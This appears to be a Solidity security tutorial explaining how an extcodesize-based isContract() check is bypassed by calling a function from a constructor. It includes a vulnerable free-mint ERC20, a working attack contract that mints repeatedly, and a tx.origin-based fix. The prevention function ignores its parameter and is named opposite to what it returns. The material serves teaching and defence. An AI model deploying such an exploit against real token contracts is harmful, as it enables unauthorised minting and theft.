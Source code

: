 ```yaml
---
title: Bypass Contract Check
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - contract-check
  - extcodesize
  - bytecode
  - eoa
  - free-mint
  - solidity
  - constructor-exploit
  - prevention
tags:
  - Constructor
  - Security
  - Smart Contracts
---
```


Many free-mint projects utilize the `isContract()` method to limit access to external accounts (EOAs) and restrict contract addresses. This method leverages `extcodesize` to determine the runtime `bytecode` length of an address. If it is greater than zero, the address is deemed a contract; otherwise, it is considered an EOA.

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

However, a vulnerability exists because, during contract creation, the runtime `bytecode` has not yet been stored at the address, so the `bytecode` length is zero. If we place our logic within the constructor, we can bypass the `isContract()` check.

**Example of the Vulnerability**

In the example below, `FreemintERC20` contract uses the `checkContract()` function to prevent contract addresses from executing its `mintTokens()` function, which is intended to prevent automated bulk minting. Each call to `mintTokens()` mints 100 tokens.

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We create an attack contract that calls `mintTokens()` multiple times during its constructor to mint `1000` tokens:

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

In this contract, calling `mintTokens()` within the constructor will bypass the `isContract()` check successfully and mint the tokens. The state variable `detectedAsContract` will be set to `false` in the constructor. After deployment, the `runtime bytecode` is stored at the contract address, and `extcodesize > 0`, thus `checkContract()` will successfully block the minting when calling `mintTokens()`.

**Prevention Methods**

We can use `(tx.origin == msg.sender)` to determine if the caller is a contract. If the caller is an EOA, then `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```